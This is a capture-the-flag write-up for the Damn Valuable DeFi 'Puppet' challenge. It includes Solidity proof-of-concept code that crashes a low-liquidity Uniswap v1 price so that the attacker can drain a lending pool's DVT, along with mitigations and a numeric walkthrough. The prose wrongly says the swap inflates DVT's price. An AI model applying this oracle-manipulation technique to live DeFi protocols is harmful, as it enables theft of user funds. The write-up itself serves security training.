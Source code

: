 ## Oracle manipulation allows an attacker to borrow all the DVT from the pool with a relatively small amount of ETH.

an attacker can borrow all the DVT from a pool with a relatively small amount of ETH.

The price of ETH relative to DVT is sourced from a Uniswap v1 pool. This specific pool has very low liquidity, making it vulnerable to price manipulation. An attacker can execute a single, large swap to artificially inflate the price of DVT, then use this manipulated price to borrow a disproportionately large amount of DVT from the lending pool.

### recomended mitigations
- Use a Decentralized Oracle Network like Chainlink.
- Implement a Time-Weighted Average Price (TWAP) Oracle (like UniswapV2), instead of relying on the spot price from a single block.
- 

### PoC
Create a contract to interact with Uniswap pool to make a swap:
```solidity
contract Interacter {
    IUniswapV1Exchange uniswapV1Exchange;
    DamnValuableToken token;
    constructor(IUniswapV1Exchange _uni, DamnValuableToken _token) {
        uniswapV1Exchange = _uni;
        token = _token;
    }

    // @dev this function swaps all the DVT balance of this contract for ETH
    function swapDVTForETH() public {
        token.approve(address(uniswapV1Exchange), token.balanceOf(address(this)));
        uniswapV1Exchange.tokenToEthSwapInput(token.balanceOf(address(this)), 1, block.timestamp + 1 days ); // uint256 tokens_sold, uint256 min_eth, uint256 deadline
    }
    
    // @dev needed to receive the eth from the swap
    receive() external payable {}
}
```

Perform the swap and proceed to borrow with the inflated ETH price to take all the funds:
```solidity
    function test_puppet() public 
    checkSolvedByPlayer 
    {
        // deploy Interacter and transfer player's DVT to make the swap
        Interacter interacter = new Interacter(uniswapV1Exchange, token);
        token.transfer(address(interacter), token.balanceOf(player)); 
        // swap tokens to manipulate the prices 
        interacter.swapDVTForETH();
        // recover funds 
        lendingPool.borrow{ value:player.balance }(token.balanceOf(address(lendingPool)), recovery);
    }
```

### The Attack in Detail (for this specific case):

**Initial State:**
- Lending Pool: 100,000 DVT.
- Uniswap Pool: 10 DVT and 10 ETH.
- player's wallet: 1,000 DVT and 25 ETH.

**Manipulation (Swap):**
- The player swaps 1,000 DVT for ETH in the Uniswap pool.
- New Uniswap Pool Balances: 1,010 DVT and approximately 0.0993 ETH.
- New Price: The manipulated price is now 1 DVT = 0.00009832 ETH (Before the manipulation, the price was 1 ETH = 1 DVT).

The lending pool's collateralization factor requires a user to deposit twice the worth of the borrowed DVT in ETH.
For example, to borrow 1 DVT, a user might be required to deposit 2 ETH.

Initially, To borrow the entire 100,000 DVT from the pool, a user would need to deposit 200,000 ETH. This is practically unfeasible.

Post-Manipulation, an attacker can now borrow all 100,000 DVT by depositing less than 20 ETH.